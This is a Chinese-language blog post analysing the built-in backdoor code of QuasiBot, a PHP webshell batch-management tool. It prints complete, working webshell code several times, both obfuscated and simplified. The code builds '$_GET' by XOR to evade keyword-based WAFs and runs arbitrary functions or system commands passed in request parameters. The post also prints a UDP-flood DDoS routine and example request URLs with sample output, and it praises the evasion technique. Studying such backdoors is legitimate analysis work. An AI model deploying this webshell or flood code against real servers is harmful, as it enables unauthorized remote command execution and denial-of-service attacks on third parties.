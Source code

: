 ```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```



### 一、前言
最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台-``QuasiBot``。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析：``非DDoS``版 和 ``DDoS``版。

### 二、分析

#### 1. 非DDoS版

首先给出 ``非DDoS`` 版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个 ``if...elseif...`` 构成。

可以看到 ``elseif($_GET['___'])`` 直接运行从Get请求过来的参数 ``___`` 的函数。例如这里后门地址为：``http://www.virtual.com/ma.php``，那么构造如下请求就会让后门代码去执行 ``phpinfo()`` 函数来获取系统的相关信息。

	http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 ``if($_GET['_'])`` 部分，当有参数 ``__`` 传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";
	$_=($_^"<").($_^">").($_^"/");
	${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 ``response`` 的注释 ``<!-- ... -->`` 里去了，这里有一定的隐藏效果。注意这里 ``print "<!--".$_="{:|";`` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 ``"GET"`` 字符串：

	$_=($_^"<").($_^">").($_^"/");

``$_^"<"`` 会将 $_ 变量的第一个字符的ascii码与'<'的ascii码 进行异或，也就是 ``123``('{'的ascii码) 与 ``60``('<'的ascii码)进行异或：

	123^60 ==> 71 ('G')

得到ascii码 ``71`` 也就是字符 ``"G"``，通过相同方法构造出 ``"E"`` 和 ``"T"``，然后将其连接构成字符串 ``"GET"``。

然后根据php中的一个变量引用特性，以 ``${'_GET'}["__"]`` 作为参数调用函数 ``${'_GET'}["_"]()``。

这里的函数执行涉及到了php中 ``动态函数调用`` 和 ``花括号{}使用`` 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 ``{}`` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 ``动态函数调用``，看下面这段代码 ``demo.php``：

{% highlight php %}
<?php
$func = "demo";
function demo() {
	echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行 ``php demo.php`` 得到输出 ``Demo on!``。

看了这个demo.php再结合 ``{}`` 的使用就很容易理解后门中的这段代码： ``${'_GET'}["__"](${'_GET'}["_"])`` 。

写得明显点就是：``$_GET["_"]($_GET["__"])``。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--{:|";
	$_GET["_"]($_GET["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
	@$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行 ``system('dir')``，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

	<!--{:| 驱动器 D 中的卷没有标签。
	 卷的序列号是 2EE6-3EE0

	 D:\PhpStudy\WWW 的目录

	2014/12/03  21:05    <DIR>          .
	2014/12/03  21:05    <DIR>          ..
	2014/12/03  21:05    <DIR>          discuz
	2014/11/10  22:43    <DIR>          Documentation
	2014/11/22  02:13               431 function.php
	2014/12/04  17:37               226 ma.php
	2014/11/19  22:38    <DIR>          mybb
	2014/11/20  12:53    <DIR>          mybb1
	2014/10/21  17:11    <DIR>          phpMyAdmin
	2014/11/25  23:52    <DIR>          phpMyRecipes
	2014/11/25  14:59    <DIR>          phpok
	2014/11/15  11:36    <DIR>          piwigo
	2014/11/14  14:04    <DIR>          qibomenhu
	2014/11/26  08:55    <DIR>          quasibot
	2014/11/27  11:50    <DIR>          rocboss
	2014/11/21  00:25    <DIR>          sqli
	2014/11/14  15:59    <DIR>          thinksns
	2014/11/10  22:43    <DIR>          Tools
	2014/11/10  22:44    <DIR>          upload
	2014/12/03  19:36               256 upload.php
	2014/11/22  12:54    <DIR>          wordpress
	               3 个文件            913 字节
	              18 个目录 35,217,747,968 可用字节
	{:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
	print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
	print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
	@$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
	$fn0=0;
	$pm1=$_POST['time'];
	$yu2=time();
	$az3=$yu2+$pm1;
	$jd4=$_POST['target'];
	$kb5=gethostbyname($jd4);
	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}
	while(1) {
		$fn0++;
		if(time()>$az3) {
			break;
		}
		$yw8=rand(1,65553);
		$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
		if($vl9) {
			fwrite($vl9,$yf7);
			fclose($vl9);
		}
	}
} elseif($_POST['kill']=='1') {
	exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照``非DDoS版``的分析。直接看DDoS代码部分，这里通过 ``$_POST['target']`` 来获取目标，``$_POST['time']`` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 ``65553`` 字节的超长数据通过 ``udp`` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 ``65553`` 字节的数据：

	for($pt6=0;$pt6<65553;$pt6++) {
		$yf7.='X';
	}

随机生成端口号（最大不应该是65535？）：

	$yw8=rand(1,65553);

创建socket并发送数据：

	$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
	if($vl9) {
		fwrite($vl9,$yf7);
		fclose($vl9);
	}

至此 ``QuasiBot`` 两种模式的后面简单剖析完毕。值得学习的是php特性的运用，整个后面代码（``非DDoS版``）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。

其中DDoS部分，没太明白为何是随机端口发送，持续跟进下。
